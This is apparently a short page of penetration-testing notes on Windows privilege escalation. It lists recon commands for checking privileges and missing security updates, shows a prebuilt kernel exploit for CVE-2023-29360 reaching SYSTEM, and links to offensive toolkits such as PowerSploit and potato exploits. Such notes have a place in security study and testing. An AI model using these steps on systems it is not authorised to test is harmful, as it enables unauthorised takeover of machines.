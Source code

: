 ## Exploit Vulnerabilities

Find (Recon)

```bash
# privileges, system info and security updates
whoami /priv
systeminfo
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
```

Exploit Kernel

```powershell
.\CVE-2023-29360.exe
whoami
nt authority\system
```

## Links

* Methodlogy and Resources `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources`
* Privilege Secure `https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc`
* Potato Windows Exploits `https://github.com/tylerdotrar/SigmaPotato`
